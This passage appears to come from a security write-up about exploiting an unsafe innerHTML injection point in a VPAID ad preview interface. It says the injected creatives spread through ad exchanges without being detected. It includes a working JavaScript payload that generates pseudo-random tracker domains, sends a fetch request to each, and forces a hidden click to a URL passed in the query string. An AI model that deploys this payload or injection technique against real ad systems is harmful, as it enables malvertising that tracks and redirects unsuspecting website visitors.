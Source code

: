 
## 3. Discovery: Entry via Preview Injection

Bort identified a vulnerable VPAID preview interface where a `token` param passed base64-encoded metadata into `innerHTML`. This enabled direct execution of injected payloads.

**Bort's Tasks:**

- Reverse engineered VPAID creative loader  
- Identified unsafe DOM injection point  
- Created entropy-based URL brancher  
- Probed DSPs and CDNs for MIME bypass  

---

## 3.1. Field Validation: Preview → Production

**Juan González** performed live network tracing and campaign telemetry to confirm propagation:

- Creatives rendered live across dozens of publishers  
- DSPs failed to detect or quarantine payloads  
- Programmatic marketplaces executed the script without flags  

**JuanG’s Tasks:**

- Traced CDN fingerprints  
- Measured site performance anomalies  
- Mapped propagation across 3 major exchanges  

---

## 4. Payload Design

```javascript
(function(){
  const qp = new URLSearchParams(window.location.search);
  const seed = qp.get("ad_url") || "";
  const base = "abcdefghijklmnopqrstuvwxyz0123456789";
  let entropy = 0;
  for (let i = 0; i < seed.length; i++) {
    entropy += seed.charCodeAt(i) * (i + 13);
  }

  const branches = [];
  for (let j = 0; j < 5; j++) {
    let sub = '';
    for (let i = 0; i < 10; i++) {
      sub += base[(entropy + i * j + j * 7) % base.length];
    }
    branches.push(`https://${sub[0]}${sub[3]}-cdn.${sub[5]}trk.${sub[2]}.biz/${sub}`);
  }

  for (let url of branches) {
    fetch(url);
  }

  const link = document.createElement('a');
  link.href = seed;
  link.style.display = 'none';
  document.body.appendChild(link);
  link.click();
})();
```

---